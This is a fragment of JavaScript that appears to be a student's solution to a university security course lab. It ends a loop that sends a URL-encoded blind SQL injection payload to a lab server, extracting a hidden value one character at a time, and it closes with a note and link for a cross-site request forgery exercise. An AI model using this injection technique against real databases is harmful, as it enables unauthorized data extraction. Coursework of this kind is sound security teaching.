        fetchDataAndCheckWord("https://cse484.cs.washington.edu/lab2/jailbreak/undefeatableboss.php?command=fight%27+or+%28select+substr%28whatyoucanreallydo%2C"+j+"%2C1%29+from+%60sql3-truepower%60+limit+1%29%3D%27"+char+"%27%29%3B+--+", char, j, "spell");
    }
  }
}


-------

xsrf

https://homes.cs.washington.edu/~kskrish/panda.html